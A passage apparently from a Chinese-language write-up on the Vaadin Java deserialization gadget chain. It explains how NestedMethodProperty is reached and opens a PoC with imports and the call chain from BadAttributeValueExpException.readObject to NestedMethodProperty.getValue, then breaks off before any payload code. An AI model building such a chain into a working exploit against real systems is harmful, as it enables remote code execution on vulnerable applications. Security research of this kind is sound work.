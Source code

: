 这里会从map中返回一个Property类型对象,我们的`NestedMethodProperty`实现了该接口

![image-20211124185308550](img/image-20211124185308550.png)

该类并没有重写readOject方法,我们只需要吧需要的给设置进去就行了

![image-20211124190718625](img/image-20211124190718625.png)

## Poc

```java
package Vaadin;

        import Tools.SerializeUtil;
        import com.vaadin.data.util.NestedMethodProperty;
        import com.vaadin.data.util.PropertysetItem;

        import javax.management.BadAttributeValueExpException;

/*
BadAttributeValueExpException.readObject()
    PropertysetItem.toString()
            PropertysetItem.getPropertyId()
                NestedMethodProperty.getValue()
```